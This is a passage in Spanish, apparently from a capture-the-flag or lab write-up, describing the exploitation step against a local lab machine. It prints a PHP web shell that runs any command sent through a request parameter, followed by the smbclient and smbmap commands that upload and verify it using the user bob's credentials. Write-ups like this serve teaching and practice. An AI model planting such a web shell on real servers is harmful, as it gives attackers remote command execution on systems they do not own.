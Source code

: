
Como el usuario `bob`, tiene permisos de escritura, podemos subir alguna **web shell**, algún archivo malicioso y poder ejecutar comandos.

---


## **Explotación**

### Creamos una WEB SHELL
Con la herramienta `nano`, creamos una fichero llamado **pwned.php** que va ser la `web shell` que subiremos al `smb` y el código es:
```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

<p align="center">
    <img src="../img/Pasted_image_20241215193815.png" width="500">
</p>

**¿Qué hace este código?**
Este fragmento de código PHP es una bomba de tiempo en tu sitio web. Básicamente, le permite a cualquier persona que visite tu sitio web ejecutar cualquier comando que quiera en tu servidor.


---

### Subimos archivo
Para subir el archivo es mas fácil usar la herramienta `smbclient`.
```
smbclient //{ IP Victima }/{ donde guardar el archivo } -U usuario%contraseña -c "comando a ejecutar"
```

```
smbclient //172.17.0.2/html -U bob%star -c "put pwned.php"
```

<p align="center">
    <img src="../img/Pasted_image_20241215194239.png" width="500">
</p>


Comprobamos si se subió correctamente, enumerando de nuevo el recurso `html`
```
smbmap -u 'bob' -p 'star' -H 172.17.0.2 -r html
```
